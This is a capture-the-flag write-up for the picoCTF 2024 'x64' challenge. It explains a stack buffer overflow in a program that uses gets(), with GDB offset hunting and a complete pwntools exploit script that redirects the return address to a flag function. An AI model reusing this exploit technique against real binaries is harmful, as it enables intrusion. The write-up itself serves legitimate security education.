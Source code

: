 ```markup
Tags: Binary Exploitation, picoCTF2024, x64
Date: 2024-07-25
Difficulty: Easy
Duration: 1h
Author: Hunter0
```
## Description
Overflow x64 code
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the `flag` function in this ==program==. Download ==source==. `nc saturn.picoctf.net 55429`

Hints: 
1. Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes.
2. Jump to the second instruction (the one after the first `push`) in the `flag` function, if you're getting mysterious segmentation faults.

---
## Writeup
Running the binary we can see, that user input is inserted to the program, the program then exits.
```bash
└─$ ./vuln                                                           
Welcome to 64-bit. Give me a string that gets you the flag: 
hello

```
Opening the vuln.c file, we can see that the main function is making a calling the vuln() function, here vuln() is taking user input through gets() with BUFFSIZE of 64. Besides that there is the interesting flag() function which opens flag.txt file.
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r"); // Flag file is opened here
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf); // vuln() uses gets with BUFSIZE 64
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln(); // main() is calling vuln()
  return 0;
}
```
gets() is a dangerous function that does not consider buffer size in stdin -> this is our overflow vector.
We can test by sending data that is larger than 64 bytes.
```bash
└─$ ./vuln                      
Welcome to 64-bit. Give me a string that gets you the flag: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./vuln
```
We witness a segmentation fault when we insert 70 bytes of 'A' char.
We can continue, by investigating our binary using GDB.
![[Pasted image 20240726003508.png]]
This is the assembly code of main(), here we see our call to vuln() is located at 0x401333 (32 bit) and the following instruction is located at 0x401338, this will be the return address when the stack frame for function call vuln() is created.
![[Pasted image 20240726004137.png]]
Here I set a breakpoint at when the vuln() function is called and second breakpoint after the gets() command in the vuln() function. Our purpose here is to first find the address of our buffer and the return address.
When running the debugger, we see that the first breakpoint is met, here information such as the location of the RSP register can be outline (0x7fffffffdd10), I also get the address of the flag() function as well (0x401236). 
![[Pasted image 20240726005009.png]]
Continuing the program, I input "AAAA" and the second breakpoint is reached, if we looked closely at the assembly code for function vuln(). We can see that `<vuln+12>` instruction `lea rax, rbp-0x40` this is allocating memory addresses for our variable, in this function the only variable is our buffer (so the address that RAX is storing must be the address to our input buffer). See image below.
![[Pasted image 20240726005534.png]]
Here we see that $rax contains the hex representation of "AAAA" which is 0x41414141, we also found here an interesting address 0x00401338 (which is the address to the next instruction in main) so this is the return address.
From here we can find our offset: 0x7fffffffdd08 - 0x7fffffffdcc0 = 0x48 (72) so the distance from the buffer to the return address is 72 bytes.
We can try to overflow, flood the register with 72 bytes 'A' and 4 bytes 'B'.
![[Pasted image 20240726010907.png]]
Here we can see that our stack has been overflowed and we have overflowed into the return_address, we can see that continuing the program register RIP is pointed to 0x42424242 ("BBBB"), now that we have located where the return address is we can attempt to point to 0x401236 which is where the flag() function is. Doing this will call the flag function which will give us the flag.
```python
import pwn
import argparse


parser = argparse.ArgumentParser()
parser.add_argument("choice", type=str, choices={"local", "remote"})
parser.add_argument("--target", "-t", type=str, required=False)
parser.add_argument("--port", "-p", type=int, default=0, required=False)

args = parser.parse_args()

elf = pwn.ELF("./vuln")

# Buffer overflow at 72 bytes
# The address of flag() function
new_rip = pwn.p64(elf.symbols["flag"])
return_main = pwn.p64(elf.symbols["main"])

print(new_rip)
print(pwn.p64(0x40123b))

#return_main = pwn.p64(elf.symbols["main"])

payload = b"".join(
        [
            b"A" * 72,
            pwn.p64(0x40123b),
            return_main,
        ]
    )

payload += b"\n"
if args.choice == "local":
    p = elf.process()

elif args.choice == "remote":
    if not args.target or not args.port:
        pwn.warning("Supply -t <target> -p <port>")
        exit()
    p = pwn.remote(args.target, args.port)

p.sendline(payload)
p.interactive()
```
The following exploit code is written, executing it will give us the flag.
![[Pasted image 20240726011347.png]]